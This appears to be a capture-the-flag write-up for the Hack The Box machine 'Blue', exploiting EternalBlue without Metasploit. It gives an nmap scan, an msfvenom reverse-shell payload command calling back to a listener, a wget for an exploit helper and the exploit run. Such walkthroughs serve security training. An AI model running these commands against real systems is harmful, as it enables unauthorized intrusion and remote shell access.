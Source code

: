 Blue without Metasploit:

![Blue](https://user-images.githubusercontent.com/55708909/91400272-fe577080-e85c-11ea-83eb-62df0e7decde.png)

tarting with Nmap Scan :
Nmap -sC -sV -T4 -A -O -oA Legacy -p- 10.10.10.40

![Blue_nmap](https://user-images.githubusercontent.com/55708909/91406950-14b2fb80-e860-11ea-963e-24b543e3b6b1.png)

Since basic tools doesn't work therefore again i run nmap vulnerability scan its a kind of methodolgy which is helpful for me.

![Blue_vuln](https://user-images.githubusercontent.com/55708909/91407940-a91d5e00-e860-11ea-9af1-7b89d7ce97fb.png)


Nmap found only one vulnerability that is eternal blue so we are going to exploit it.

![Blue_exploit](https://user-images.githubusercontent.com/55708909/91408457-8b042d80-e861-11ea-90ee-cb9a68007cd4.png)

First create a payload using msfvenom 

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe

edit 42315.py files

![42315_PART_1](https://user-images.githubusercontent.com/55708909/91409346-eaaf0880-e862-11ea-8b35-88a345bb3cf7.png)

![42315_PART_2](https://user-images.githubusercontent.com/55708909/91409465-103c1200-e863-11ea-8e7d-b6e316b7b6fb.png)

Before running the exploit you need one more file that is mysmb.py files which you can get it from here

wget https://raw.githubusercontent.com/helviojunior/MS17-010/master/mysmb.py

now open a netcat session at port 4444 and run the exploit using these commands : python 42315.py 10.10.10.40

Here we have a netcat session from target machine.

![Blue_shell](https://user-images.githubusercontent.com/55708909/91410383-76756480-e864-11ea-8f11-642241382da9.png)

Flags:

![Blue_flags](https://user-images.githubusercontent.com/55708909/91410690-e7b51780-e864-11ea-88eb-0a6fdda131c6.png)













